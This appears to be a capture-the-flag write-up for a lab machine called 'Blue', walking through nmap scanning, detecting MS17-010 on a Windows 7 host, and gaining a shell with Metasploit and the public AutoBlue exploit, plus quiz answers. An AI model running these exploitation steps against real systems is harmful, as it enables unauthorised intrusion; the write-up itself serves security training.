 ```yaml
---
description: 'OS: Windows'
---
```


# BLUE

**بسم الله الرحمن الرحيم**

<figure><img src="../../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

### Recon

using Nmap&#x20;

```bash
nmap 10.10.55.229 -sV -sC 
```

How many ports are open with a port number under 1000?

```bash
sudo nmap 10.10.55.229 -p 1-1000  #Result = 3
```

<figure><img src="../../../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
sudo nmap 10.10.55.229 -sV  -p T:135,139,445 --script="smb-vuln-*"

```

<figure><img src="../../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**the OS windows VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)**
{% endhint %}

### Gain Access / initial Access

using MSF6

```bash
msfconsole
search ms17-010
use 0
options
set RhOSTS


```



<figure><img src="../../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

My connection was cut off  there was a problem with vpn

&#x20;

<figure><img src="../../../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

but in my PC <mark style="color:red;">**FAIl**</mark>

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;i will try search I Found exploit [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
git clone  https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode 
./shell_prep.sh
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)&#x20;

**`Answer`**` ``post/multi/manage/shell_to_meterpreter`

<figure><img src="../../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Select this (use MODULE\_PATH). Show options, what option are we required to change?

**Answer** `session`\
